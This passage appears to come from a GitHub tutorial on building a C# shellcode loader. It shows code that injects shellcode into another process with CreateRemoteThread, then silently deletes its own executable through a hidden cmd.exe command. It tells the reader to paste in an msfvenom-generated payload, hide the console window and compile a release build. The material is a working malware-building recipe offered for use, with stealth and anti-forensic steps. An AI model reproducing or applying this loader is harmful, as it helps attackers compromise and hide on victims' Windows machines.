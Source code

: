 ```csharp
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            // Launch a separate process to delete the executable
            string currentExecutablePath = Process.GetCurrentProcess().MainModule.FileName;
            Process.Start(new ProcessStartInfo()
            {
                Arguments = "/C choice /C Y /N /D Y /T 3 & Del \"" + currentExecutablePath + "\"",
                WindowStyle = ProcessWindowStyle.Hidden,
                CreateNoWindow = true,
                FileName = "cmd.exe"
            });

        }
    }
}

```

### Now Copy The Code We Generated From `msfvenom` Above
#### Replace this code line in the c# script 
```
By zebbern SHELLCODE PAYLOAD HERE CHOOSE FROM ABOVE THIS TEXT PUT IT IN KALI PASTE THE SCRIPT
```
#### With the generated msfvenom payload
```
byte[] buf = new byte[460] {0x96,0x22 etc...............0xbf};
```
### Now It should look something like this:
> <img src="https://github.com/user-attachments/assets/e05bb4fb-8afd-4939-b343-4a8237e72887" width="600" />

### Now go to `Configuration Manager...` & Make it like in the pictures
> <img src="https://github.com/user-attachments/assets/ac48d688-1c70-420f-9e65-4819fe0d7a1d" width="400" />
> <img src="https://github.com/user-attachments/assets/e0877672-bd3b-409f-93b0-a164ef56b138" width="600" />

#### Hide the Console Window  
1. **Project → Properties → Application → Output Type → _Windows Application_**  
2. Re‑build (**Release | x64**).

### Now build the solution
> <img src="https://github.com/user-attachments/assets/3ed2f025-7b01-4436-ba70-659086f63420" width="600" />

### If you now see in console: `Build success` You have done correct
> <img src="https://github.com/user-attachments/assets/3a7d3a30-abea-4d81-92e3-2bf6ed489f53" width="600" />
